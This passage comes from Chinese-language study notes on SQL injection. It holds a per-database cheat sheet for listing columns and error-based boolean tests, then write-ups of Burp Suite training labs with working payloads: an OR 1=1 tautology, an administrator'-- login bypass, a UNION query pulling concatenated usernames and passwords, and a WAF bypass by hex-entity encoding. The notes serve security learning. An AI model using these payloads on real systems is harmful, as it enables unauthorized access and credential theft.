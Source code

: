 |数据库类型|语句|
| ----------| ----|
|**Microsoft SQL Server**|`SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE';`|
|**Oracle**|`SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE';`|
|**PostgreSQL**|`SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE';`|
|**MySQL**|`SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE';`|

#### 布尔操作

`YOUR-CONDITION-HERE`是需要判断的条件

|数据库类型|语句|
| ----------| ----|
|**Microsoft SQL Server**|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END;`|
|**Oracle**|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual;`|
|**PostgreSQL**|`1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END);`|
|**MySQL**|`SELECT IF(YOUR-CONDITION-HERE, (SELECT table_name FROM information_schema.tables), 'a');`|

### burp实验

#### 实验：WHERE 子句中的 SQL 注入漏洞允许检索隐藏数据

只要在请求中加上这段，就能查询所有数据

```
/filter?category=Gifts'+OR+1=1--
```

#### 实验：允许绕过登录的 SQL 注入漏洞

用户名使用`administrator'--`，就可以登入

#### 实验：通过 XML 编码绕过过滤器的 SQL 注入

因为要获取到管理员的username和password，所以需要寻找可以注入的地方，在查询物品库存的地方可以注入sql，但是有个waf导致无法注入，使用拓展hex_entities 成功绕过

![](https://pic.imgdb.cn/item/67444b7c88c538a9b5bba6cd.png)

这里的

```sqlite
1 UNION SELECT username || '-' || password FROM users
```

其中的逻辑就是UNION需要前后的列数是匹配的，这里的1列数只有1列，所以直接查username和password是没有返回的，用`||`将两个字符串连接起来，这样结果就只会返回一列

最后成功获得数据

#### 实验：SQL 查询 Oracle 上的数据库类型和版本

我自己尝试的注入没成功，查看他给的
